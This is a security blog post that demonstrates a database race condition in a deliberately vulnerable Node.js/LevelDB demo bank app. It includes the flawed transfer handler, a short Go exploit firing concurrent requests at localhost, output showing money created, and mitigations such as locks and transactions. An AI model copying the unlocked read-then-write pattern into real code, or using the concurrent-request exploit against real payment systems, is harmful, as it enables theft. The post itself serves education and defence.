 ```yaml
---
date: 2014-06-24 22:35:25 GMT
slug: two-reads-dont-make-a-write
tags: security, node.js
title: Two Reads Don't Make a Write
author: Tom Steele
type: text
---
```


Database race conditions are hard to identify and tricky to exploit, but if an attacker is able to leverage this weakness, the results can be devastating. [Flexcoin](http://flexcoin.com/) had such a weakness in their application, and allowed an attacker to steal enough bitcoins that they were forced to shutdown, more information on this specific situation is available [here](http://hackingdistributed.com/2014/04/06/another-one-bites-the-dust-flexcoin/).

Race conditions can occur no matter what backend solution you choose. Traditional databases support [transactions](http://en.wikipedia.org/wiki/Database_transaction) to prevent them. But most key-value data stores do not have such mechanisms. This is well known, and in many cases is not deal breaker. But it is important to understand when this should be a requirement, or at least when a compensating control is needed. 

Key-value data stores are a large part of modern application development, and growing in popularity. Solutions like Riak, LevelDB, MongoDB, etc. give you increased flexibility and development efficiency, as well as other benefits which have been covered and discussed extensively. With the benefits also come weaknesses, or maybe a better word is differences.

Rather than writing a long explanation centered around a theoretical situation, I decided to write a tiny application to quickly demonstrate this vulnerability. Enter [raceybank](https://github.com/tomsteele/raceybank), a little Node application with a LevelDB backend. This is incredibly simple and somewhat silly, but it demonstrates the issue well.

We're going to walk through the application now. There are instructions in the repository so you can follow along at home. 

Consider we have a banking application, or maybe we have a store that gives a user credits. Whatever. Let's look at our user model.

~~~~~javascript
module.exports = new dulcimer.Model({
    id: {
        derive: function() {
            return this.key.split('!')[1];
        }
    },
    name: {
        type: 'string',
        required: true
    },
    money: {
        type: 'integer',
        required: true
    }
}, { db: db, name: 'user'});
~~~~~

Pretty straight forward, we have a user with a unique id, a name, and some amount of money. Our application consists of two routes, `GET /users` and `POST /transfer`. Here is the transfer route.


~~~~~javascript
function handleTransfer(request, reply) {
    var to = null;
    var from = null;
    var amount = request.payload.amount;

    if (request.payload.to === request.payload.from) {
        return reply().code(400);
    }

    async.parallel([function (cb) {
        User.get(request.payload.to, function (err, user) {
            if (err) {
                return cb(err);
            }
            to = user;
            return cb();
        });
    }, function (cb) {
        User.get(request.payload.from, function (err, user) {
            if (err) {
                return cb(err);
            }
            from = user;
            return cb();
        });
    }], foundUsers);

    function foundUsers(err) {
        // Something happened or we didnt find the users.
        if (err || !to || !from) {
            return reply().code(404);
        }

        // Validate from has the funds for this transfer.
        if (from.money < amount) {
            return reply().code(403);
        }

        // Transfer the money.
        from.money -= amount;
        to.money += amount;
        async.parallel([function (cb) {
            from.save(function (err) {
                cb(err);
            });
        }, function (cb) {
            to.save(function (err) {
                cb(err);
            });
        }], saveUsers);
    }

    function saveUsers(err) {
        if (err) {
            return reply().code(500);
        }
        return reply();
    }
}
~~~~~

It's a bit of code, but the gist is we read two users from the database, validate the transferrer has the requested amount of funds, decrement from transferrer, increment transferee's funds, and save the user records. Once we have the application started, we can see that some seed data has been initialized by calling `GET /users` (note: you would never want to return this much information, but this is a demo).

~~~~~shell
$ curl http://localhost:3000/users | python -mjson.tool
[
    {
        "id": "0000000001",
        "money": 100,
        "name": "Alice"
    },
    {
        "id": "0000000002",
        "money": 100,
        "name": "Bob"
    },
    {
        "id": "0000000003",
        "money": 100,
        "name": "Carol"
    }
]
~~~~~

Alice, Bob, and Carol all have 100 something, let's call it dollars, resulting in a total economy of $300. We'll transfer $100 from Alice to Bob, and then attempt to transfer $100 from Alice to Carol.

~~~~~shell
$ curl -i http://localhost:3000/transfer -X POST -d '{"from": "0000000001", "to": "0000000002", "amount": 100}' -H 'Content-Type: application/json'
HTTP/1.1 200 OK
~~~~~

~~~~~shell
$ curl -i http://localhost:3000/transfer -X POST -d '{"from": "0000000001", "to": "0000000003", "amount": 100}' -H 'Content-Type: application/json'
HTTP/1.1 403 Forbidden
~~~~~

The first request succeeds and the second fails because Alice does not have enough money. But we made these requests sequentially, what happens if we make these requests concurrently? I'll show you! Here is some quick Go code to make the magic happen. All it does is make the same two requests, but concurrently in two goroutines.

~~~~~go
package main

import (
    "bytes"
    "log"
    "net/http"
    "sync"
)

func main() {
    req1 := []byte(`{"to": "0000000002", "from": "0000000001", "amount": 100.00}`)
    req2 := []byte(`{"to": "0000000003", "from": "0000000001", "amount": 100.00}`)
    wait := &sync.WaitGroup{}
    wait.Add(2)
    go func(body []byte) {
        defer wait.Done()
        http.Post("http://localhost:3000/transfer", "application/json", bytes.NewReader(body))
    }(req1)
    go func(body []byte) {
        defer wait.Done()
        http.Post("http://localhost:3000/transfer", "application/json", bytes.NewReader(body))
    }(req2)

    wait.Wait()
    log.Println("done")
}
~~~~~

We restart the application to reset our data and run our exploit.

~~~~~shell
$ ./exploit-osx
2014/06/24 15:03:19 done
~~~~~

Check out users balances.

~~~~~shell
curl http://localhost:3000/users | python -mjson.tool
[
    {
        "id": "0000000001",
        "money": 0,
        "name": "Alice"
    },
    {
        "id": "0000000002",
        "money": 200,
        "name": "Bob"
    },
    {
        "id": "0000000003",
        "money": 200,
        "name": "Carol"
    }
]
~~~~~

Carol and Bob both have $200. WE JUST CREATED MONEY. No we're not Midas, we're simply exploiting a race condition. Alice is read twice before the write. So each request instance believes they have the required funds.

This is a traditional example and often used as the argument for why transactions are important. In a real bank there would be much stricter control and fraud prevention to prevent this from going unnoticed. But not everyone is a big bank with unlimited resources, and not every situation will deal with dollars and cents. This could be occur in something of relatively low importance, but still be a bug that could drive you to madness.

How can we prevent this? To me, this depends on the nature of the data being handled. If it's crucial financial data I would opt for a traditional database (there are NoSQL solutions that support transactions as well). If not, or you're already heavily invested in a existing solution, you can apply a lock/mutex around the troublesome operation. A few modules exist in Node land to solve this, including [lock](https://github.com/dominictarr/lock) and [padlock](https://github.com/fritzy/padlock). There are other options, including in-code patterns such as a [two-phase-commit](http://docs.mongodb.org/manual/tutorial/perform-two-phase-commits/); investigate what works for you, look for this in your code, and test for it.

After reading this post, [Fritzy](http://andyet.com/team/nathan), the awesome author of [dulcimer](https://github.com/fritzy/Dulcimer), decided to make the world a little bit safer and implemented a method which uses the lock pattern mentioned above. Check out the [docs](https://github.com/fritzy/Dulcimer/tree/withLock#runWithLock) for more information.

